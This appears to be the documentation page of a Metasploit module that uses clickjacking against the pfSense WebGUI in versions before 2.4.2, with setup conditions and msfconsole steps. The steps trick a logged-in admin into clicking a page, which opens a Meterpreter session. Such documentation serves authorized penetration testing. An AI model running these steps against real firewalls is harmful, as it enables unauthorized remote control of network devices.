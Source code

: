 ## Vulnerable Application

This vulnerability affects any pfSense versions prior to 2.4.2-RELEASE.

## Vulnerable Setup

The victim should be able to access the WebGUI & must be logged in as admin in order for this exploit to work. Possible the WebGUI's TLS certificate must be trusted in the browser.

## Verification Steps

  1. `use exploit/unix/http/pfsense_clickjacking`
  2. `set TARGETURI https://<ip WebGUI>`
  3. `exploit`
  4. Browse to the URL return by MSF
  5. Click anywhere on the returned page
  6. Note that a new Meterpreter sessions was started.


## Options

**TARGETURI**

The base path of the WebGUI. The default base path is https://192.168.1.1/
